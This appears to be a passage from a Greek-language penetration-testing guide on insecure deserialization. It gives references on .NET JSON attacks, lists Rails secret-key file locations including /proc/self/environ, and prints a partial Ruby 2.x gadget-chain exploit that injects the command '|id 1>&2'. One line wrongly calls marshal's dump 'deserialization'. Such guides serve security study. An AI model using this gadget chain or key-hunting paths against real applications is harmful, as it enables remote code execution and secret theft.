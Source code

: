 ### **References**

* Java και .Net JSON αποσειριοποίηση **έγγραφο:** [**https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf**](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf)**,** ομιλία: [https://www.youtube.com/watch?v=oUAeWhW5b8c](https://www.youtube.com/watch?v=oUAeWhW5b8c) και διαφάνειες: [https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-Json-Attacks.pdf](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-Json-Attacks.pdf)
* [https://cheatsheetseries.owasp.org/cheatsheets/Deserialization\_Cheat\_Sheet.html#net-csharp](https://cheatsheetseries.owasp.org/cheatsheets/Deserialization\_Cheat\_Sheet.html#net-csharp)
* [https://media.blackhat.com/bh-us-12/Briefings/Forshaw/BH\_US\_12\_Forshaw\_Are\_You\_My\_Type\_WP.pdf](https://media.blackhat.com/bh-us-12/Briefings/Forshaw/BH\_US\_12\_Forshaw\_Are\_You\_My\_Type\_WP.pdf)
* [https://www.slideshare.net/MSbluehat/dangerous-contents-securing-net-deserialization](https://www.slideshare.net/MSbluehat/dangerous-contents-securing-net-deserialization)

## **Ruby**

Στη Ruby, η αποσειριοποίηση διευκολύνεται από δύο μεθόδους μέσα στη βιβλιοθήκη **marshal**. Η πρώτη μέθοδος, γνωστή ως **dump**, χρησιμοποιείται για να μετατρέψει ένα αντικείμενο σε ροή byte. Αυτή η διαδικασία αναφέρεται ως αποσειριοποίηση. Αντίθετα, η δεύτερη μέθοδος, **load**, χρησιμοποιείται για να επαναφέρει μια ροή byte πίσω σε ένα αντικείμενο, μια διαδικασία που ονομάζεται αποσειριοποίηση.

Για την ασφάλεια των αποσειριοποιημένων αντικειμένων, **η Ruby χρησιμοποιεί HMAC (Hash-Based Message Authentication Code)**, διασφαλίζοντας την ακεραιότητα και την αυθεντικότητα των δεδομένων. Το κλειδί που χρησιμοποιείται για αυτό το σκοπό αποθηκεύεται σε μία από πολλές πιθανές τοποθεσίες:

* `config/environment.rb`
* `config/initializers/secret_token.rb`
* `config/secrets.yml`
* `/proc/self/environ`

**Ruby 2.X γενική αποσειριοποίηση σε αλυσίδα gadget RCE (περισσότερες πληροφορίες στο** [**https://www.elttam.com/blog/ruby-deserialization/**](https://www.elttam.com/blog/ruby-deserialization/)**)**:
```ruby
#!/usr/bin/env ruby

# Code from https://www.elttam.com/blog/ruby-deserialization/

class Gem::StubSpecification
def initialize; end
end


stub_specification = Gem::StubSpecification.new
stub_specification.instance_variable_set(:@loaded_from, "|id 1>&2")#RCE cmd must start with "|" and end with "1>&2"

puts "STEP n"
stub_specification.name rescue nil
puts


class Gem::Source::SpecificFile
def initialize; end
end

specific_file = Gem::Source::SpecificFile.new
specific_file.instance_variable_set(:@spec, stub_specification)

other_specific_file = Gem::Source::SpecificFile.new

puts "STEP n-1"
specific_file <=> other_specific_file rescue nil
```